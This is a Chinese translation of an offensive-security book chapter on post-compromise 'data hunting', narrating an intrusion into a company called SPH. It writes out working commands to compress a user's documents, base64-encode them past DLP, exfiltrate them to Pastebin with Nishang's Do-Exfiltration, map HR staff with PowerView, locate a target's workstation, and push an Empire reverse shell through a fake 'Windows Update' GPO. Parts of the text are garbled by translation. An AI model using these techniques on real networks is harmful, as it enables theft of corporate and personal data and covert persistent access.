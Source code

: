 # 第五章、数据狩猎

> 炼金术士在寻找金子时发现了许多更有价值的东西。 -- *Earl Derr Biggers*（亚瑟叔本华）

现在我们有了通往王国的钥匙，我们可以完全专注于实现我们“访问”的真正目的:
- 获取商业秘密、人力资源和商业战略文件
- 转储CEO的珍贵邮件。泄露客户记录

## 5.1 数据窃取技术

定位数据很容易，但在不触发所有告警系统的情况下把数据取出来就有点棘手了。假如你尝试将错误的ppt格式文件上传到谷歌硬盘，那么数据防泄漏系统(DLP)类的工具就会告警，无论数据多小。我们必须小心。

总之，我们需要一个可靠的战略：
- 毫不费力地获取大数据（千兆字节）；
- 对数据加密以使后续的调查查不到实际采取的措施；
- 找一个绕过防火墙或web代理的可靠方法。

如果我们在一个晚上窃取了50GB的数据，那么流量会有明显增加，之后还让对方查到数据泄露的时间。可能当流量达到一定的阈值，甚至可能会发出警报，这太麻烦了!为了避免任何麻烦，我们将把待走私的数据分成多块，并在随机的某小时/某天/某周将数据窃取出去。

假设我们要将Rachel的主目录“C:\users\Rachel\documents”数据偷偷传出去。首先，我们使用本地PowerShell命令对其进行压缩(适用于Windows 8和Windows 10，但不适用于Windows 7)
```
PS> Get-ChildItem C:\users\Rachel\documents | Compress-Archive -DestinationPath c:\users\Rachel\documents.zip
```

提示:要设置一个密码，并在目标机上安装7zip和使用此PowerShell脚本http://blog.danskingdom.com/powershell-function-to-create-passwordprotectedzip-file。


然而，窃取此zip文件可能会被DLP系统捕获，该DLP系统可以解压缩文件来查找带标签的文档。如果无法解压文件，系统可能会阻止它外传。这就是为什么我们需要添加另一个欺骗手段：即将这个显而易见的zip文件转换成一个普通的旧文本文件，使得它能通过任何DLP系统。

我们可以使用Windows本地命令“certutil -encode”，用base64对压缩的文档进行编码，然后将生成的文本文件发送到一个上传服务器。 但是，这有一个工具可以自动执行此操作，并节省了几分钟的代码，即Nishang提供的Do-Exulation.ps1 [74]。
此工具有两个主要选项:
- 通过HTTPS将数据传输到我们控制的Web服务器。
- 将数据嵌入到发送到我们的DNS服务器的DNS查询中。这是绕过防火墙规则和代理过滤的一种非常聪明的方法，因为必须允许DNS穿过这种设备。

我们将使用第一个选项，因为它提供了一个有趣的选项，可以直接将数据上传到Pastebin.com，所以我们不必担心设置web服务器。

我们在Pastebin上设置一个帐户，并获得一个API密钥(以下称为dev_key)。然后，我们使用以下命令执行Do- Exfiltering:
```
PS C:\users\Rachel> Get-content documents.zip | Do- Exfiltration -ExfilOption pastebin -dev_key 0d19a7649774b35181f0d008f1824435 username paste_user_13 -password paste_password_13
```
如您所见，我们可以直接从PasteBin获取文件。

为了恢复压缩的文档，我们下载了文本文件，然后在Linux上使用base64命令对其进行解码。
`FrontGun$ cat data.txt | base64 -d > documents.zip`

现在我们知道如何获取数据了,让我们来进一步挖掘一些价值!

## 5.2 战略文件

敏感的商业文件一般存放在如下两个地方:
- 服务器(有时是工作站)上的网络共享。
- 用户工作站，通常是VIP、HR、市场营销和会计人员的计算机。
- 
从10.10.20.118上的RDP会话中，我们可以列出远程服务器上的网络共享，直到我们访问成功！:
```#bash
>	net view \\10.10.20.229 /all
Share name Type Used as Comment

--------------------------------------------
ADMIN$		Disk		Remote Admin 
C$	Disk	Default share 
Common		Disk
ExCom	Disk
IPC$	IPC	Remote IPC
Marketing	Disk
```
![xxx示意图](./Chap5/5.2-1.jpg)

提示：我们使用invoke-expression（IEX）加载脚本，以免触发防病毒系统告警。
我们将所需的任何目录复制到我们控制的Windows服务器上，将其压缩并使用前面介绍的技术进行窃取。 通常我们可以得到足够的网络共享数据，使整个公司蒙羞七次，直到星期日。
如果我们想要更进一步，我们可以针对特定的用户钓鱼和获取信息。要做到这一点，我们需要知道哪些人在公司内部担任关键职位。
我们轻轻向AD域查询员工的职位和部门，从而映射整个组织架构。有了特权访问权限，我们可以远程检索他们计算机的任何文件，甚至可以记录按键操作、启用摄像头、获取记录等。
我们从PowerView执行Get-NetUser来列出HR的工作人员:


PS > Get-NetUser -filter "department=HR*"

name	: Juliette company		: SPH
description	: Head of HR
department	: HR
lastlogontimestamp	: 12/30/2016 6:25:47 PM physicaldeliveryofficename : HR department
title	: HR manager […]
name	: mark
company	: SPH
department	: HR
displayname	: mark
pwdlastset	: 12/29/2016 9:27:08 PM […]




我们重复此过程来映射公司内部的所有其他主要结构：ExCom，Marketing，Accounting等。获取用户名后，我们可以通过查找其工作站的IP/name来追踪它们。
最可靠的方法是解析域控上的成连接事件日志。它通常包含用户登录的最后一台计算机。
PowerView提供了Invoke-EventHunter模块来轻松完成此任务：
PS > Invoke-EventHunter -username Juliette	
朱丽叶最后一次使用了工作站FRPC066(10.10.20.66)。我们尝试远程访问她的工作站的默认共享文件夹，但最终被本地防火墙阻止:

没有RDP，也没有RPC端口……基本上无法从我们控制的计算机渗入。但是，我们控制着AD域，所以可以肯定，我们能够解决这些难题。
我们的救赎在于一般的政策和对象。GPO是在域级别定义的一组设置，用于更改资源配置:设置代理、更改屏幕保护程序，当然还有执行脚本!现在Every then,工作站调查新的GPO设置的域为逃避防火墙rules. controller...which是完美的如果我们可以插入一个执行PowerShell脚本的设置，我们就可以在她的机器上运行一个反向shell，并在以后做我们想做的任何事情。
我们的攻击入口在常规策略对象GPO。 GPO是在域级别定义的一组设置，用于更改资源的配置：设置代理，更改屏幕保护程序以及执行脚本！ 工作站不时地从域控中轮询新的GPO设置，这是逃避防火墙规则的完美之选。 如果我们可以进入执行PowerShell脚本的设置，则可以在她的计算机上运行一个反向shell，并在以后执行几乎所有需要的操作。
首先，我们在PowerShell会话中激活并导入可用的组策略模块(10.10.20.118):


然后，我们创建一个名为Windows更新的假GPO（我们以域控制器FRSV210为目标）：

我们只想针对Juliette在计算机FRPC066上的账户，所以我们限制了这个GPO的范围:

 

最后，我们将它连接到SPH域来激活它:

我们返回到Front Gun服务器上的Empire框架，并生成一个新的反向Shell代理，这次将它编码为base64，以便很好地适合注册表项：



然后，我们指示我们创建的GPO在下一次Juliette的计算机轮询新设置时设置“运行”注册表项。 此注册表项将在Juliette的下次登录时执行PowerShell代理：


我们耐心等待，直到最终，我们的反向shell连接成功

进入工作站后，我们几乎可以执行如前所述的相同操作来窃取数据。





